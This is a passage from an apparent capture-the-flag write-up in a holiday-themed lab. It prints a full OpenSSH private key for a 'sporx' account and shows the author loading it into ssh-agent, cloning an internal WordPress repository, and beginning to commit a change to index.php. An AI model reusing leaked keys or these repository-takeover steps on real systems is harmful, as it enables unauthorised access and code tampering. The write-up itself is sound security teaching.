 !!! note "Private Key"
    ```
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
    9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
    AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
    PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
    -----END OPENSSH PRIVATE KEY-----

    user is `sporx`
    ```


With the new key, I can clone the repository as the sporx user! What I'll have to do first is start up an `ssh-agent` binary and add the key in memory. Good thing there isn't a password involved!

!!! abstract ""
    ```sh
    grinchum-land:~$ cat > sporx.key <<EOF
    > -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
    9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
    AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
    PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
    -----END OPENSSH PRIVATE KEY-----
    > EOF
    grinchum-land:~$ chmod 600 ./sporx.key 
    grinchum-land:~$ eval `ssh-agent`
    Agent pid 191
    grinchum-land:~$ ssh-add ./sporx.key 
    Identity added: ./sporx.key (sporx@kringlecon.com)
    ```

Now by adding the ssh key, I can clone the repo again...but I wonder what else I can do?

!!! abstract ""
    `#!sh git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`

Let's modify one of the PHP files to have a comment that I can grep out.

!!! abstract ""
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ vi index.php
    grinchum-land:~/wordpress.flag.net.internal$ git add index.php
    grinchum-land:~/wordpress.flag.net.internal$ git commit -m "tee hee"
    Author identity unknown

    *** Please tell me who you are.

    Run

      git config --global user.email "you@example.com"
      git config --global user.name "Your Name"
